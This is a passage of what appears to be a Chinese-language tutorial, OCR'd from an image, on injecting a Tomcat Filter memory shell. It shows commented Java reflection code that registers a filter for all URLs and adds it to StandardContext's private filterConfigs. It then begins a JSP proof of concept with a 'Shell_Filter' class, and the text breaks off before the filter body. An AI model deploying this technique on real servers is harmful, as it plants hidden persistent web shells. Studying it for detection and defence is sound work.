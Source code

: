 ```java
// 使用 addURLPattern() 方法向 FilterMap 中添加 URL 匹配模式，这里使用通配符 "/*" 表示匹配所有的 URL。
filterMap.addURLPattern("/*");
// 使用 setFilterName() 方法设置过滤器的名称，参数 name 应该是一个字符串，表示过滤器的名称。
filterMap.setFilterName(name);
// 使用 setDispatcher() 方法设置调度器类型，参数应该是一个字符串，表示调度器的类型。
// 在这里使用了 DispatcherType.REQUEST.name()，表示过滤器将会对请求（REQUEST）进行处理。
filterMap.setDispatcher(DispatcherType.REQUEST.name());
// 最后，通过 addFilterMapBefore() 方法将这个过滤器映射添加到指定的 StandardContext 对象中。
// 这个方法将过滤器映射添加到现有过滤器映射的前面，即在当前过滤器链的最前面添加这个过滤器映射。
standardContext.addFilterMapBefore(filterMap);
```
#### 4.2.3.4、封装`filterConfig`及`filterDef`到`filterConfigs`
```java
// 通过反射获取了 StandardContext 类中名为 "filterConfigs" 的字段，并将其存储在 Configs 变量中。
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
// 将 Configs 这个字段对象设为可访问，即使这个字段在正常情况下是私有的，也可以通过反射进行访问。
Configs.setAccessible(true);
// 反射获取了 standardContext 对象中 filterConfigs 字段的值，并将其转换为 Map 类型，存储在 filterConfigs 变量中。
// 这个 filterConfigs 变量应该是一个保存过滤器配置的 Map。
Map filterConfigs = (Map) Configs.get(standardContext);

// 通过反射获取了 ApplicationFilterConfig 类中接受 Context 和 FilterDef 参数的构造函数。
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
// 将 constructor 这个构造函数对象设为可访问，即使这个构造函数在正常情况下是私有的，也可以通过反射进行访问。
constructor.setAccessible(true);
// 反射调用了 constructor 构造函数对象的 newInstance 方法，创建了一个 ApplicationFilterConfig 类型的对象，并将 standardContext 和 filterDef 作为参数传入。
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
// 将新创建的 filterConfig 对象以及对应的名称 name 添加到 filterConfigs Map 中，即向 standardContext 中的过滤器配置中添加了一个新的过滤器配置。
filterConfigs.put(name, filterConfig);
```
### 4.2.4、完整POC
```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
 
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
 
<%! public class Shell_Filter implements Filter {
```